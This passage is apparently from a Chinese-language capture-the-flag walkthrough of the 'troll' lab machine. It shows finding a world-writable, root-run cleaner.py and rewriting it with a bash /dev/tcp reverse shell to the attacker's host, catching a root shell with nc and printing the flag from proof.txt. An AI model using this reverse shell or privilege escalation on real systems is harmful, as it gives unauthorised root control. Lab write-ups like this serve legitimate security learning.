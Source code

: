注意：这个脚本不是负责结束会话的脚本

查找 `cleaner.py`

```bash
overflow@troll:/$ find / -type f -name "cleaner.py" 2>/dev/null
/lib/log/cleaner.py
```

查看 `cleaner.py` ，发现当前用户可以修改这个以 root 身份运行的脚本

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
overflow@troll:/$ ls -al /lib/log/
total 12
drwxr-xr-x  2 root root 4096 Aug 13  2014 .
drwxr-xr-x 22 root root 4096 Aug 10  2014 ..
-rwxrwxrwx  1 root root   96 Aug 13  2014 cleaner.py
```

修改脚本提权

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
	os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'")
except:
	sys.exit()
```

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'
```

得到反弹shell

```bash
─# nc -lvvp 1234            
listening on [any] 1234 ...
connect to [192.168.0.103] from 192.168.0.102 [192.168.0.102] 37753
bash: cannot set terminal process group (2249): Inappropriate ioctl for device
bash: no job control in this shell
root@troll:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@troll:~# cd
cd
root@troll:~# ls
ls
proof.txt
root@troll:~# cat p*
cat p*
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
```
